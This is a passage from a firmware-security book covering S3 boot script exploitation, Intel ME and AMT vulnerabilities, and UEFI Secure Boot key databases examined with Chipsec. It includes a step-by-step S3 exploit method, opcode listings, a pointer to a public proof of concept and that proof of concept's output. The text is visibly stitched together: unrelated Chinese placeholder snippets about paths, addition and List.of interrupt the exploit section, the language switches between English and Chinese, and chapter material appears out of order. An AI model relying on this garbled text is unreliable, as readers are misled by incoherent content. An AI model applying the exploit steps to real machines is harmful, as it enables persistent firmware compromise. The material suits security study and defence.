The first researchers to publicly describe the malicious behavior of an S3 boot script were Rafal Wojtczuk and Corey Kallenberg. In their December 2014 presentation “Attacks on UEFI Security, Inspired by Darth Venamis’s Misery and `Speed Racer`” ([`bit.ly/2ucc2vU`](https://bit.ly/2ucc2vU)) at the 31st Chaos Communication Congress (31C3), they revealed the S3-related vulnerability CVE-2014-8274 (`VU#976132`). A few weeks later, security researcher Dmytro Oleksiuk (also known as Cr4sh) released the first proof-of-concept exploit for this vulnerability. The PoC’s release triggered multiple discoveries by other researchers. A few months later, Pedro Vilaca found multiple related problems in Apple products based on UEFI firmware. Researchers at the Intel Advanced Threat Research group also highlighted several potential S3 attacks in virtualization security in their talk “Attacking Hypervisors via Firmware and Hardware” ([`www.youtube.com/watch?v=nyW3eTobXAI`](https://www.youtube.com/watch?v=nyW3eTobXAI)), presented at Black Hat Vegas in 2015. If you want to know more about the S3 boot script vulnerabilities, we recommend looking at some of these presentations.

#### Exploiting the S3 Boot Script Vulnerability

The impact of an S3 boot script exploit is clearly huge. But how exactly does the attack work? First, the attacker must already have code execution in the kernel mode (Ring 0) of the operating system, as Figure 16-6 shows.


*Figure 16-6: Step-by-step exploitation of an S3 boot script*

Let’s dig into each step of this exploit.

1.  **Initial reconnaissance.** During the reconnaissance phase, an attacker must get the S3 boot script pointer (address) from the UEFI variable `AcpiGlobalVariable`, which points to the boot script location in unprotected DRAM memory. Then they must copy the original boot script into a memory location so they can restore the original state after exploitation. Finally, they must make sure the system is actually affected by the S3 boot script vulnerability by using the modification dispatch code `EFI_BOOT_SCRIPT_DISPATCH_OPCODE`, which adds a record into the specified boot script table to execute arbitrary code, as shown in Listing 16-5. If the modification of a single S3 opcode is successful, the system is most likely vulnerable.

2.  **S3 boot script modification.** To modify the boot script, the attacker inserts a malicious dispatch opcode record at the top of the copied boot script to place as the first boot script opcode command. They then overwrite the boot script address location by setting the `AcpiGlobalVariable` to a pointer to the modified malicious version of the boot script.

3.  **Payload delivery.** The S3 boot script dispatch code (`EFI_BOOT_SCRIPT_DISPATCH_OPCODE`) should now point to the malicious shellcode. The content of the payload depends on the attacker’s target. It could serve multiple purposes, including bypassing SMM memory protection or executing additional shellcode stages mapped separately elsewhere in memory.


## 4. Vulnerability trigger

The malicious boot script is executed right after the attacked machine returns from sleep mode. To trigger an exploit, either the user or additional malicious code inside the OS would have to activate S3 sleep mode. After the boot script starts execution, it jumps to the entry point address defined by the dispatch code—where the malicious shellcode receives control.

Listing 16-5 lists all S3 boot script opcodes documented by Intel, including the highlighted `EFI_BOOT_SCRIPT_DISPATCH_OPCODE`, which executes the malicious shellcode.

```
EFI_BOOT_SCRIPT_IO_WRITE_OPCODE = 0x00
EFI_BOOT_SCRIPT_IO_READ_WRITE_OPCODE = 0x01
EFI_BOOT_SCRIPT_MEM_WRITE_OPCODE = 0x02
EFI_BOOT_SCRIPT_MEM_READ_WRITE_OPCODE = 0x03
EFI_BOOT_SCRIPT_PCI_CONFIG_WRITE_OPCODE = 0x04
EFI_BOOT_SCRIPT_PCI_CONFIG_READ_WRITE_OPCODE = 0x05
EFI_BOOT_SCRIPT_SMBUS_EXECUTE_OPCODE = 0x06
EFI_BOOT_SCRIPT_STALL_OPCODE = 0x07
EFI_BOOT_SCRIPT_DISPATCH_OPCODE = 0x08
EFI_BOOT_SCRIPT_MEM_POLL_OPCODE = 0x09
```

*Listing 16-5: S3 Boot Script dispatch opcodes*

You can find a reference implementation of the S3 boot script developed by Intel in the EDKII repository on GitHub (`github.com/tianocore/edk2/tree/master/MdeModulePkg/Library/PiDxeS3BootScriptLib/`). This code is useful for understanding both the internals of the S3 boot script behavior on x86 systems and the mitigations implemented to prevent the vulnerability we just discussed.

To check whether a system is affected by the S3 boot script vulnerability, you can use Chipsec’s S3 Boot Script tool (`chipsec/modules/common/uefi/s3bootscript.py`). You can’t use this tool to exploit the vulnerability, however.

You could, however, use Dmytro Oleksiuk’s PoC of the exploit published on GitHub (`github.com/Cr4sh/UEFI_boot_script_expl/`) to deliver a payload. Listing 16-6 shows the successful result of this PoC exploitation.

```
[x][ =======================================================================
[x][ Module: UEFI boot script table vulnerability exploit
[x][ =======================================================================
[*] AcpiGlobalVariable = 0x79078000
[*] UEFI boot script addr = 0x79078013
[*] Target function addr = 0x790780b6
8 bytes to patch
Found 79 zero bytes at 0x0x790780b3
Jump from 0x79078ffb to 0x79078074
Jump from 0x790780b6 to 0x790780b3
Going to S3 sleep for 10 seconds ...
rtcwake: wakeup from "mem" using /dev/rtc0 at Mon Jun 6 09:03:04 2018
[*] BIOS_CNTL = 0x28
[*] TSEGMB = 0xd7000000
[!] Bios lock enable bit is not set
[!] SMRAM is not locked
[!] Your system is VULNERABLE
```

*Listing 16-6: The result of successful S3 boot script exploitation*

进入`/path/to/xxx`目录，找到`xxx.json`。

在表达式`cvar = avar + bvar`中，加法运算符（`+`）将`avar`与`bvar`相加，得到它们的和`cvar`

在`List.of(arg0, arg1, arg2)`中，`List`接口的工厂方法`of()`接受一系列的元素，返回包含它们的只读列表。

之后我们这样调用`cmd`命令：`cmd arg0 arg1 arg2`。

```
if (condVar > someVal) {console.log("xxx")}
```

The vulnerability and its exploit are also useful for disabling some of the BIOS protection bits, such as BIOS Lock Enabled, BIOS Write Protection, and some others configured in the `FLOCKDN` (Flash Lock-Down) register. Importantly, an S3 exploit can also disable the protected ranges of `PRx` registers by modifying their configuration. Also, as we mentioned before, you can use the S3 vulnerability to bypass virtualization memory isolation technologies, such as Intel VT-x. In fact, the following S3 opcodes can make direct memory accesses during recovery from sleep state:

```
EFI_BOOT_SCRIPT_IO_WRITE_OPCODE = 0x00
EFI_BOOT_SCRIPT_IO_READ_WRITE_OPCODE = 0x01
```

Those opcodes can write some value to a specified memory location on behalf of the UEFI firmware, which makes it possible to attack a guest VM. Even when the architecture includes a hypervisor more privileged than the host system, the host system can attack it via S3 and, through it, all the guests.

### Fixing the S3 Boot Script Vulnerability

The S3 boot script vulnerability was one of the most impactful security vulnerabilities in UEFI firmware. It was easy to exploit and hard to mitigate, since an actual fix required multiple firmware architectural changes.

Mitigating the S3 boot script issue required integrity protection from Ring 0 modifications. One way to achieve this was to move the S3 boot script to the `SMRAM` (SMM memory range). But there’s another way: in a technique introduced in EDKII (`edk2/MdeModulePkg/Library/SmmLockBoxLib`), Intel architects designed a LockBox mechanism to protect the S3 boot script from any modifications outside of SMM.^(3)

## Vulnerabilities in the Intel Management Engine

The Intel Management Engine is interesting for an attacker. This technology has tantalized hardware security researchers ever since its inception, because it’s both virtually undocumented and extremely powerful. Today, the ME uses a separate x86-based CPU (in the past, it used the boutique ARC CPU) and serves as the foundation for the Intel hardware root of trust and multiple security technologies such as Intel Boot Guard, Intel BIOS Guard, and, partially, Intel Software Guard Extension (SGX). Thus, compromising ME provides a way to bypass Secure Boot.

Control of ME is a highly coveted goal for attackers, since ME has all the power of SMM but can also execute an embedded real-time OS on a separate 32-bit microcontroller that operates totally independently of the main CPU. Let’s look at some of its vulnerabilities.

### A History of ME Vulnerabilities

In 2009, security researchers Alexander Tereshkin and Rafal Wojtczuk from Invisible Things Lab presented their research on abusing ME in their talk, “Introducing Ring –3 Rootkits,” presented at the Black Hat USA conference in Las Vegas.^(4) They shared their discoveries about Intel ME internals and discussed ways of injecting code into the Intel AMT execution context—by co-opting ME into a rootkit, for example.

The next advance in understanding ME vulnerabilities came an entire eight years later. Researchers Maxim Goryachy and Mark Ermolov from Positive Technologies discovered code execution vulnerabilities in the newer version of ME, present in Intel’s sixth, seventh, and eighth generations of CPUs. These vulnerabilities—`CVE-2017-5705`, `CVE-2017-5706`, and `CVE-2017-5707`, respectively—allowed an attacker to execute arbitrary code inside ME’s operating system context, resulting in a complete compromise of the respective platforms at the highest level of privilege. Goryachy and Ermolov presented these discoveries in “How to Hack a Turned-Off Computer, or Running Unsigned Code in Intel Management Engine” at Black Hat Europe 2017,^(5) where the researchers showed how rootkit code could bypass or disable multiple security features, including Intel’s Boot Guard and BIOS Guard technologies, by compromising their root of trust. Whether any security technologies are resilient to a compromised ME remains an open research question. Among other capabilities, rootkit code that executes in the Intel ME context allows the attacker to modify the BIOS image (and, partially, the root of trust of Boot Guard) directly inside the SPI flash chip and thus to bypass most security features.

### ME Code Attacks

Even though ME code executes on its own chip, it communicates with other layers of the OS and can be attacked via these communications. As always, the communication boundary is a part of any computational environment’s attack surface, no matter how isolated the environment.


Intel 创建了一个特殊的接口，称为 *Host-Embedded Controller Interface (HECI)*，以便 ME 应用程序能够与操作系统内核通信。例如，该接口可用于通过网络连接远程管理系统，该连接终止于 ME，但能够捕获操作系统 GUI（例如通过 VNC），或用于在制造过程中操作系统辅助的平台配置。它还可用于实现 Intel vPro 企业管理服务，包括 AMT（我们将在下一节讨论）。

通常，UEFI 固件通过位于 BIOS 内部的代理 SMM 驱动程序 `HeciInitDxe` 初始化 HECI。该 SMM 驱动程序通过连接 CPU 和 ME 芯片的 PCH 桥，在 ME 和主机操作系统厂商特定驱动程序之间传递消息。

在 ME 内部运行的应用程序可以注册 HECI 处理程序以接受来自主机操作系统的通信（ME 不应信任来自操作系统的任何输入）。如果操作系统内核被攻击者接管，这些接口就会成为 ME 攻击面的一部分；例如，ME 应用程序内部过度信任且未完全验证来自操作系统端消息的解析器，可能会被精心构造的消息攻破，就像脆弱的网络服务器一样。这就是为什么通过最小化 HECI 处理程序的数量来减少 ME 应用程序的攻击面非常重要。确实，Apple 平台永久禁用 HECI 接口，并将其 ME 应用程序的数量降至最低，这是一个刻意的安全策略决定。然而，一个 ME 应用程序被攻破并不意味着整个 ME 都被攻破。

#### 案例研究：针对 Intel AMT 和 BMC 的攻击

现在让我们考虑两种使用 ME 的技术中的漏洞。为了管理大型数据中心，以及必须集中管理的海量企业工作站库存，组织通常使用将管理端点和逻辑嵌入平台主板的技术。这使他们能够远程控制平台，即使平台的主 CPU 未运行。这些技术包括 Intel 的 AMT 和各种基板管理控制器（BMC）芯片，它们不可避免地成为了其平台攻击面的一部分。

全面讨论针对 AMT 和 BMC 的攻击超出了本章的范围。然而，我们仍想提供一些线索，因为这些技术的利用直接与 UEFI 漏洞相关，并且由于 2017 年和 2018 年披露的高影响力 Intel AMT 和 BMC 漏洞，最近受到了广泛关注。我们接下来将讨论这些漏洞。

##### AMT 漏洞

Intel 的 AMT 平台作为 ME 应用程序实现，因此直接与 Intel ME 执行环境相关。AMT 利用 ME 的能力通过网络与平台通信，即使主 CPU 未激活或完全断电。它还利用 ME 在运行时读写 DRAM，独立于主 CPU。AMT 是 ME 固件应用程序的典型示例，旨在通过 BIOS 更新机制进行更新。为此，Intel AMT 运行自己的 Web 服务器，用作企业远程管理控制台的主要入口点。

2017 年，在拥有近二十年干净的公共安全记录后，`AMT` 遭遇了其第一个漏洞报告——但鉴于其性质，这是一个令人震惊的漏洞，绝非我们将看到的最后一起！

来自 `Embedi`（一家私人安全公司）的研究人员向 `Intel` 通报了关键问题 `CVE-2017-5689` (`INTEL-SA-00075`)，该问题允许远程访问并绕过身份验证。自 2008 年以来生产的所有支持 `ME` 的 `Intel` 系统均受影响。（这不包括庞大的 `Intel Atom` 群体，其本身并不包含 `ME`，但所有包含 `ME` 脆弱组件的服务器和工作站产品极有可能受到影响。官方仅声称 `Intel vPro` 系统包含 `AMT`。）

该漏洞的范围很有趣，因为它主要影响那些通过远程 `AMT` 管理控制台访问的系统，即使在关闭状态下也能被访问——这意味着系统在关闭状态下也可能受到攻击。

通常，`AMT` 被宣传为 `Intel vPro` 技术的一部分，但在同一份演示中，`Embedi` 研究人员展示了如何在非 `vPro` 系统上启用 `AMT`。他们发布了 `AMTactivator` 工具，操作系统管理员可以运行该工具来启动 `AMT`，即使它在平台上并非官方支持的功能。研究人员表明，`AMT` 是所有当前由 `ME` 驱动的 `Intel` CPU 的一部分，无论其是否被宣传为 `vPro` 启用的；在后者情况下，`AMT` 依然存在，可以被激活，用于好或坏的用途。关于该漏洞的更多详情请参见 [`www.blackhat.com/docs/us-17/thursday/us-17-Evdokimov-Intel-AMT-Stealth-Breakthrough-wp.pdf`](https://www.blackhat.com/docs/us-17/thursday/us-17-Evdokimov-Intel-AMT-Stealth-Breakthrough-wp.pdf)。

`Intel` 故意披露了关于 `AMT` 很少的信息，这为除 `Intel` 之外的任何人研究该技术的安全弱点都带来了巨大困难。然而，高级攻击者接受了挑战，并在分析 `AMT` 的隐藏可能性方面取得了显著进展。对防御者而言，更多恶劣惊喜可能随之而来。

**THE PLATINUM APT ROOTKIT**

与 `Intel AMT` 固件无直接关系，但有趣的是，著名的 *PLATINUM APT* 行为体利用了 `AMT` 的串行 over LAN（SOL）频道进行网络通信。该根套件于 2017 年夏季由 `Microsoft` 的 Windows Defender 研究小组发现。`AMT` SOL 的通信独立于操作系统，因此不受宿主设备上操作系统防火墙和网络监控应用的检测。在此之前，没有已知的恶意软件利用 `AMT SOL` 功能作为隐蔽的通信通道。关于更多细节，请参阅 `Microsoft` 发布的原始论文和博客文章（[`cloudblogs.microsoft.com/microsoftsecure/2017/06/07/platinum-continues-to-evolve-find-ways-to-maintain-invisibility/`](https://cloudblogs.microsoft.com/microsoftsecure/2017/06/07/platinum-continues-to-evolve-find-ways-to-maintain-invisibility/)）。

然而，UEFI Secure Boot 提供的保护容易受到 `firmware rootkits`（固件根套件）的攻击，这是最新且增长最快的恶意软件技术。因此，你需要另一层安全机制来覆盖从一开始的整个启动过程。你可以通过一种称为 `Verified and Measured Boot`（验证和度量启动）的 Secure Boot 实现来实现这一点。

本章将向你介绍这项安全技术的核心，首先描述当它锚定在硬件中时如何防范固件根套件，然后讨论其实现细节以及它如何保护受害者免受启动套件的攻击。

正如在安全行业中经常发生的那样，很少有安全解决方案能提供针对攻击的终极保护；攻击者和防御者陷入了永恒的军备竞赛。我们将通过讨论 UEFI Secure Boot 的缺陷、绕过它的方法，以及如何使用来自 Intel 和 ARM 的两个版本的 Verified and Measured Boot 来保护它，来结束本章。

### 什么是 Secure Boot？

Secure Boot 的主要目的是防止任何人在预启动环境中执行未经授权的代码；因此，只允许执行符合平台完整性策略的代码。这项技术对于高保障平台非常重要，也经常用于嵌入式设备和移动平台，因为它允许供应商将平台限制为仅运行供应商批准的软件，例如 iPhone 上的 iOS 或 Windows 10 S 操作系统。

Secure Boot 有三种形式，取决于在启动过程层级的哪一级强制执行：

`OS Secure Boot` 在操作系统引导加载程序级别实现。这验证由操作系统引导加载程序加载的组件，例如操作系统内核和启动驱动程序。

`UEFI Secure Boot` 在 UEFI 固件中实现。这验证 UEFI DXE 驱动程序和应用程序、Option ROM 以及操作系统引导加载程序。

`Platform Secure Boot (Verified and Measured Secure Boot)` 锚定在硬件中。这验证平台初始化固件。

我们在第 6 章讨论了 OS Secure Boot，因此在本章中我们将重点关注 UEFI Secure Boot 和 Verified and Measured Boot。

### UEFI Secure Boot 实现细节


# UEFI Secure Boot

We’ll start this discussion with how UEFI Secure Boot works. First, it’s important to note that UEFI Secure Boot is a part of the UEFI specification, which you can find at [`www.uefi.org/sites/default/files/resources/UEFI_Spec_2_7.pdf`](http://www.uefi.org/sites/default/files/resources/UEFI_Spec_2_7.pdf). We’ll be referring to the specification—in other words, the description of how UEFI Secure Boot is *supposed* to work—though different platform manufacturers may have different implementation details.

> **NOTE**
>
> When we refer to “Secure Boot” from now on in this section, we’re talking about UEFI Secure Boot unless otherwise mentioned.

We’ll begin by looking at the boot sequence to see where Secure Boot comes into play. Then, we’ll look at how Secure Boot authenticates executables and discuss the databases involved.

## The Boot Sequence

Let’s quickly review the UEFI boot sequence described in Chapter 14 to see where Secure Boot comes into the process. If you skipped that chapter, it’s worth visiting it now.

If you refer back to “How UEFI Firmware Works” on page 242, you’ll see that the first piece of code executed when a system comes out of reset is the platform initialization (PI) firmware, which performs basic initialization of the platform hardware. When the PI is executed, the chipset and memory controller are still in an uninitialized state: no DRAM is available for the firmware yet, and peripheral devices on the PCIe bus have not yet been enumerated. (The *PCIe bus* is a high-speed serial bus standard used on virtually all modern PCs; we’ll discuss it more in later chapters.) At this point, Secure Boot isn’t yet active, meaning the PI part of the system’s firmware isn’t protected at this point.

Once the PI firmware discovers and configures RAM and performs the basic platform initialization, it proceeds to load the DXE drivers and UEFI applications, which in turn continue to initialize the platform hardware. This is when Secure Boot comes into play. Anchored in the PI firmware, Secure Boot is used to authenticate the UEFI modules loaded from the SPI (Serial Peripheral Interface) flash or Option ROMs of peripheral devices.

The authentication mechanism used in Secure Boot is, in essence, a digital signature verification process. Only properly authenticated images are allowed to execute. Secure Boot relies on a *public key infrastructure (PKI)* to manage signature verification keys.

Explained simply, a Secure Boot implementation contains a public key that is used to verify the digital signature of executable images loaded at boot. The images should have an embedded digital signature, although, as you’ll see later in this chapter, there are some exceptions to this rule. If an image passes verification, it is loaded and eventually executed. If an image does not have a signature and verification fails, it will trigger remediation behavior—actions executed in cases when Secure Boot fails. Depending on the policy, the system can continue booting normally or abort the boot process and display an error message to the user.

Actual implementations of Secure Boot are a bit more complicated than we’ve described here. To properly establish trust in the code that’s executed during boot, Secure Boot uses different types of signature databases, keys, and policies. Let’s take a look at these factors one by one and dig into the details.

> **REAL-WORLD IMPLEMENTATIONS: TRADEOFFS**
>
> In real implementations of UEFI firmware, platform manufacturers often compromise between security and performance. Checking the digital signature of every UEFI image requesting execution takes time. On an average modern platform, there may be a few hundred UEFI images trying to load, so verifying the digital signature of every single executable would prolong the boot process. At the same time, manufacturers are under pressure to reduce boot time, especially in embedded systems and in the automotive industry. Instead of verifying every UEFI image, firmware vendors often choose to verify UEFI images with hashes to increase performance. The set of hashes for allowed images is located in a storage solution, the integrity and authenticity of which is ensured only once, via digital signature, when the storage is accessed. We’ll discuss these hashes in more detail later in this chapter.

## Executable Authentication with Digital Signatures

As a first step toward understanding Secure Boot, let’s take a look at how UEFI executables are actually signed—that is, where the digital signature is located in an executable file and what kinds of signatures Secure Boot supports.

For UEFI executable files that are Portable Executable (PE) images, the digital signatures are contained in special data structures called *signature certificates*. The location of these certificates in the binary is determined by a special field of the PE header data structure called the *Certificate Table Data Directory*, illustrated in Figure 17-1. It’s worth mentioning that there may be multiple digital signatures for a single file, generated using different signing keys for different purposes. By looking at this field, the UEFI firmware can locate the signature information used to authenticate the executable.


*Figure 17-1: Location of digital signatures in UEFI images*

- Other types of UEFI executable images (for example, `Terse Executable (TE)` images) lack embedded digital signatures due to the specifics of their executable format. The TE image format is derived from the PE/COFF format to reduce the size of TE images so they occupy less space. Consequently, TE images contain only the PE format fields required for execution in the PI environment, meaning they lack fields such as the Certificate Table Data Directory. As a result, UEFI firmware cannot directly authenticate these images by verifying their digital signatures. However, Secure Boot provides the ability to authenticate using cryptographic hashes, a mechanism discussed in more detail in the next section.

- The layout of embedded signature certificates depends on their type. We won't delve into layout details here, but you can find more information on page 73 under "Location of Driver Signatures".

- All signature certificates used in Secure Boot contain at least the following information: the cryptographic algorithms used for signature generation and verification (e.g., hash function and digital signature algorithm identifiers), the cryptographic hash of the executable to be signed, the actual digital signature, and the public key used to verify the digital signature.

- This information is sufficient for Secure Boot to verify the authenticity of an executable image. The specific process is: the UEFI firmware locates and reads the signature certificate in the executable file, calculates the hash of the executable according to the specified algorithm, and then compares the calculated hash with the hash provided in the certificate. If they match, the firmware uses the key provided in the certificate to verify the digital signature of the hash. If verification succeeds, the firmware accepts the signature; otherwise (e.g., hash mismatch or signature verification failure), the firmware fails to authenticate the image.

- Merely having a signature match expectations is not sufficient to establish trust in a UEFI executable. The firmware must also ensure that the executable was signed with a trusted key; otherwise, anyone could generate a custom key and use it to sign a malicious image, thereby passing Secure Boot verification.

- Therefore, the public key used to verify the signature must match a trusted private key. The UEFI firmware explicitly trusts these private keys, allowing them to be used to establish trust in images. The list of trusted public keys is stored in the `db` database, which we will discuss further.

## The `db` Database

- The `db` database stores a list of authorized public key certificates used to verify signatures. Whenever Secure Boot performs signature verification on an executable, it compares the signing public key against the keys in the `db` database to determine if the public key is trusted. Only code signed with private keys corresponding to these trusted certificates will be executed during the platform boot process.

- In addition to the list of trusted public key certificates, the `db` database contains a set of individual executable file hashes that are allowed to execute on the platform even if they are not digitally signed. This mechanism can be used to authenticate TE files that lack embedded digital signatures.

- According to the UEFI specification, the signature database is stored in a non-volatile memory (NVRAM) variable that persists across system reboots. The implementation of NVRAM variables is platform-specific; different OEMs may adopt different implementations. Typically, these variables are stored in the same SPI flash that contains the platform firmware (such as BIOS). As shown on page 337 in "Modifying the UEFI Variables to Bypass Security Checks", this can lead to exploitable vulnerabilities to bypass Secure Boot.

- We can view the contents of the `db` database by dumping the NVRAM variables that store the `db` variable. We use a Lenovo Thinkpad T540p as an example, but you should use the platform you are working with. We use the open-source toolset Chipsec (mentioned in Chapter 15) for dumping. Chipsec is feature-rich and suitable for forensic analysis, which we will discuss further in Chapter 19.

- Download the Chipsec tool from GitHub: [`github.com/chipsec/chipsec/`](https://github.com/chipsec/chipsec/). The tool depends on winpy (Python extensions for Windows), which must be downloaded and installed first. After installation, open a command prompt or other command-line interpreter, navigate to the directory where the Chipsec tool was downloaded, and then enter the following command to view the list of UEFI variables in the current directory:

  ```
  $ chipsec_util.py uefi var-list
  ```

  This command dumps the contents of all UEFI variables to the subdirectory `efi_variables.dir` and decodes known portions of some variables (Chipsec only decodes the contents of some known variables). Upon entering the directory, you will see content similar to Figure 17-2.

  

  *Figure 17-2: UEFI variables dumped by Chipsec*

- Each entry in this directory corresponds to a single UEFI NVRAM variable. The variable name structure is `VarName_VarGUID_VarAttributes.bin`, where `VarName` is the variable name, `VarGUID` is the 16-byte Globally Unique Identifier (GUID), and `VarAttributes` is the list of attributes for that variable (short format). According to the UEFI specification, here are some attributes for the entries in Figure 17-2:

  - `NV`: Non-Volatile, indicating the variable content persists across reboots.
  - `BS`: Boot Services Access, accessible by UEFI Boot Services, typically available before the OS loader starts.
  - `RT`: Runtime Services Access, accessible by UEFI Runtime Services, which are always available during OS loading and runtime.
  - `AWS`: Authenticated Write Support (Counter-based), indicating new content must be signed by an authorized key to be written; data includes a counter to prevent rollback attacks.
  - `TBAWS`: Time-Based Authenticated Write Support, indicating new content must be signed by an authorized key to be written; the signature includes a timestamp to verify creation before the corresponding key expires.


- 如果 Secure Boot 已配置且平台存在 `db` 变量，您会在目录中找到以 `db_` 开头的子文件夹，例如 `db_D719B2CB-3D3A-4596-A3BC-DAD00E67656F`。Chipsec 在转储 `db` 变量时会自动解码其内容，该子文件夹中会出现对应的公钥证书和被授权的 UEFI 映像散列文件。在我们的例子中，共有五个文件——四个证书和一个 SHA256 哈希，如 Figure 17-3 所示。


*Figure 17-3: The contents of a signature database UEFI variable*

这些证书采用 X.509 编码，是定义公钥证书格式的加密标准。我们可以解码这些证书以获取颁发者信息，从而确定哪个签名会通过 Secure Boot 验证。为此，我们使用 openssl 工具包（见“打开 SSL 工具包”方框），从 `https://github.com/openssl/openssl/` 下载并安装工具，然后执行以下命令，将 `certificate_file_path` 替换为本地计算机上存放 openssl 的目录：

```
$ openssl x509 -in certificate_file_path
```

在 Windows 系统上，只需将 X.509 证书文件的扩展名从 bin 改为 crt，然后用资源管理器打开该文件，即可查看解码结果。Table 17-1 列出了我们的结果，包含证书的颁发者和主体。

**Table 17-1:** The Decoded Certificates and Hashes from the UEFI Variable

| **Filename** | **Issued to** | **Issued by** |
| --- | --- | --- |
| *X509-7FACC7B6-127F-4E9C-9C5D-080F98994345-03.bin* | Thinkpad Product CA 2012 | Lenovo Ltd. Root CA 2012 |
| *X509-7FACC7B6-127F-4E9C-9C5D-080F98994345-04.bin* | Lenovo UEFI CA 2014 | Lenovo UEFI CA 2014 |
| *X509-77FA9ABD-0359-4D32-BD60-28F4E78F784B-01.bin* | Microsoft Corporation UEFI CA 2011 | Microsoft Corporation Third-Party Marketplace Root |
| *X509-77FA9ABD-0359-4D32-BD60-28F4E78F784B-02.bin* | Microsoft Windows Production PCA 2011 | Microsoft Root Certificate Authority 2010 |

从表中可以看出，只有 Lenovo 和 Microsoft 签名的 UEFI 镜像才能通过 UEFI Secure Boot 完整性检查。

### THE OPENSSL TOOLKIT

OpenSSL 是一个开源软件库，实现了安全套接层（SSL）和传输层安全（TLS）协议以及通用的密码学原语。它采用 Apache 风格许可证，广泛用于商业和非商业应用。库提供了丰富的 X.509 证书处理功能，无论是解析已有证书还是生成新证书。项目信息可查阅 `https://www.openssl.org/`。

### The dbx Database

与 db 数据库不同，dbx 数据库存储的是公钥证书以及被禁止在启动时执行的 UEFI 可执行文件的哈希值。该数据库也称为 *Revoked Signature Database*，明确列出会导致 Secure Boot 验证失败的镜像，防止包含已知漏洞的模块在平台安全受到威胁时执行。

我们以与 db 签名数据库相同的方式来探索 dbx 数据库的内容。运行 Chipsec 工具后，会生成若干文件夹，其中 `efi_variables.dir` 文件夹应包含一个以 `dbx_D719B2CB-3D3A-4596-A3BC-DAD00E67656f` 开头的子文件夹。该文件夹内存放被禁止的 UEFI 镜像的证书和哈希值。在我们的例子中，该文件夹仅包含 78 条哈希，没有证书，如 Figure 17-4 所示。


*Figure 17-4: Contents of the dbx database (the revoked signature database) UEFI variable*

Figure 17-5 展示了使用 db 和 dbx 数据库进行镜像签名验证的算法。


*Figure 17-5: The UEFI Secure Boot image verification algorithm*

从该图可知，UEFI 可执行文件仅在其哈希值或签名证书在 db 数据库中受信任且不在 dbx 数据库中被列出时才通过验证。否则，Secure Boot 完整性检查将失败。

### Time-Based Authentication

除了 db 和 dbx 数据库，Secure Boot 还使用两个其他数据库，即 dbt 与 dbr。dbr 包含用于验证 OS 恢复加载器签名的公钥证书，这里不作详细讨论。

dbt 包含用于验证 UEFI 可执行文件数字签名时间戳的时间戳证书，从而实现时间基础认证（TBAWS）。正如本章前文所述，TBAWS 通过检查 UEFI 变量的属性来实现。

数字签名有时包含由 *Time Stamping Authority（TSA）* 服务颁发的时间戳。该时间戳反映签名生成的时刻。通过比较签名时间戳与签名密钥的有效期截止时间，Secure Boot 判断签名是在密钥失效之前还是之后生成的。通常，密钥的有效期截止日期是指该密钥被视为受损的时间点。因此，时间戳使得 Secure Boot 能够确认签名是在密钥未被损坏时生成的，从而保证签名的真实性。此机制在 PKI 与 Secure Boot db 证书之间简化了复杂度。

时间基础认证还能避免重新签名相同的 UEFI 镜像。时间戳证明签名在对应密钥失效或撤销之前已完成，因此即使密钥随后失效，签名仍然有效，因为它是在密钥仍然有效且未受损时创建的。

### Secure Boot Keys

现在我们了解了 Secure Boot 如何获取受信任和撤销的公钥证书信息，接下来讨论这些数据库的存储方式以及防止未经授权修改的措施。若攻击者篡改 db 数据库，便可通过插入恶意证书并用对应私钥签名的引导加载程序替换 OS 引导程序，使 Secure Boot 误认为该证书受信任，从而绕过检查。

为防止 db 与 dbx 数据库被未经授权修改，平台或操作系统厂商必须对其数字签名。UEFI 固件在读取这些数据库内容时，首先使用 `Key Exchange Key（KEK）` 公钥验证其数字签名，然后再用 `Platform Key（PK）` 验证每个 KEK。

#### Key Exchange Keys

与 db 与 dbx 数据库类似，公钥列表存放在 NVRAM UEFI 变量中。我们通过之前使用 chipsec 命令生成的结果来查看 KEK 变量的内容。打开结果所在目录，应能看到类似 `KEK_8BE4DF61-93CA-11D2-AA0D-00E098032B8C` 的子文件夹（Figure 17-6），其中包含公钥证书（即 KEK 证书）。


*Figure 17-6: Contents of the KEK UEFI variable*

只有拥有对应私钥的所有者才能修改 db 与 dbx 数据库的内容。本例中仅有 Microsoft 与 Lenovo 两家 KEK 证书，如 Table 17-2 所示。

**Table 17-2:** Certificates in the KEK UEFI Variable

| **Filename** | **Issued to** | **Issued by** |
| --- | --- | --- |
| *X509-7FACC7B6-127F-4E9C-9C5D-080F98994345-00.bin* | Lenovo Ltd. KEK CA 2012 | Lenovo Ltd. KEK CA 2012 |
| *X509-77FA9ABD-0359-4D32-BD60-28F4E78F784B-01.bin* | Microsoft Corporation KEK CA 2011 | Microsoft Corporation Third-Party Marketplace Root |

- 你可以通过导出 KEK 变量并执行我们之前使用的 `openssl` 命令，来发现系统 KEK 证书对应的私钥所有者。

#### Platform Key

- `PK` 是 Secure Boot PKI 密钥层级中的最后一个签名键。正如你可能猜测的，该键用于通过签名 KEK UEFI 变量来验证 KEK。根据 UEFI 规范，每个平台仅有一个 `PK`。通常，该键对应平台制造商。

- 返回在执行 `chipsec` 后创建的 `efi_variables.dir` 的 `PK_8BE4DF61-93CA-11D2-AA0D-00E098032B8C` 子文件夹，在那里你可以找到公共 `PK` 证书的证书。你的证书对应你的平台。因此，既然我们使用了 Lenovo Thinkpad T540p 平台，我们期望我们的 `PK` 证书对应 Lenovo（参见 Figure 17-7）。


*Figure 17-7: The PK certificate*

- 你可以看到我们的确实是由 Lenovo 签发的。`PK` UEFI 变量也受到验证，每次变量更新都应使用对应 `PK` 变量中存储的当前证书的私钥进行签名。换句话说，如果平台所有者（或在 UEFI 术语中称为平台制造商）想要用新证书更新 `PK` 变量，则需要用当前 `PK` 变量中存储的证书对应的私钥对新证书缓冲区进行签名。

### UEFI Secure Boot: The Complete Picture

- 现在我们已经探索了 UEFI Secure Boot 所使用的 PKI 基础设施的完整层级，让我们把所有内容整合起来，看整体情况，如 Figure 17-8 所示。


*Figure 17-8: UEFI Secure Boot verification flow*

- 在图的最上方，你可以看到根本信任根（UEFI Secure Boot 本身天然信任的组件，所有后续验证都基于此）：平台初始化固件和平台密钥。平台初始化固件是 CPU 复位后首先执行的代码，Secure Boot 隐式信任这段代码。如果攻击者 compromises（入侵/破坏）了 PI 固件，整个 Secure Boot 强制的信任链会被破坏。在这种情况下，攻击者可以修补实现 Secure Boot 镜像验证的任何 UEFI 模块，使其始终返回成功，从而让所有提供的 UEFI 镜像都通过验证。

